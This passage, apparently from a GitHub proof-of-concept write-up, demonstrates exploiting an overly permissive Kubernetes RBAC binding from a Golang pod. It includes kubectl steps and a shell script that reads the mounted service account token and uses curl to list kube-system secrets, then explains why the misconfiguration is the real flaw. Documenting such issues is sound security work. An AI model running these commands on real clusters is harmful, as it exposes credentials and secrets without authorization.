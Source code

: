                   echo 'Pod started, SA token available at /var/run/secrets/kubernetes.io/serviceaccount/token';
                  sleep 3600
                  ```
            
        - Apply this manifest: `kubectl apply -f poc-golang-pod.yaml`
        - Wait for the pod to be in the `Running` state: `kubectl get pod -n app-space golang-poc-pod -w`
    3. **Simulate Attacker Gaining Pod Access:**
        - Once the pod is running, simulate an attacker gaining shell access to the container. This could occur through an application-layer vulnerability in the Golang application, a sidecar vulnerability, or other means.
            
            ```Bash
            
            `kubectl exec -it -n app-space golang-poc-pod -- /bin/sh`
            ```
            
    4. **Exploit Service Account Token from within the Pod:**
        - Inside the pod's shell, the service account token is automatically mounted at `/var/run/secrets/kubernetes.io/serviceaccount/token`. The Kubernetes API server's address and CA certificate are also available.
        - Use `curl` (which was installed by the pod's startup command) to query the Kubernetes API server for secrets, for example, in the `kube-system` namespace.
    
            ````Bash
            
            # Commands to run inside the golang-poc-pod shell
            TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
            CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
            K8S_API_HOST="kubernetes.default.svc" # Internal Kubernetes API server hostname
            
            # Attempt to list secrets in the kube-system namespace
            echo "Attempting to list secrets in kube-system..."
            curl --cacert "$CACERT" \
                 --header "Authorization: Bearer $TOKEN" \
                 "https://$K8S_API_HOST/api/v1/namespaces/kube-system/secrets"
            ```
            
    5. **Observe Outcome:**
        - The `curl` command will output a JSON list of all secrets within the `kube-system` namespace (or any other namespace the attacker chooses to query). This demonstrates that the compromised Golang pod, by leveraging its misconfigured and overly permissive service account, has successfully gained unauthorized access to sensitive cluster-wide information.

This PoC highlights a critical aspect: the Golang application itself doesn't need to contain malicious code for this specific vulnerability (k8s-misconfig) to be exploited. The misconfiguration exists at the Kubernetes resource level (the `ClusterRoleBinding`). Once an attacker gains initial access to a pod operating under such a misconfigured identity—regardless of whether the application in the pod is written in Golang or another language—they can use the standard Kubernetes mechanisms (service account token, API server access) to exploit those excessive permissions. The Golang pod, in this instance, serves as the "launchpad" for the exploitation of the RBAC misconfiguration. The core vulnerability is the overly permissive RBAC binding. Kubernetes automatically mounts the service account token into the pod, making it accessible to any process running within, including an attacker's shell. Since the Kubernetes API is a REST API, standard tools like `curl` are sufficient to interact with it using the compromised bearer token.
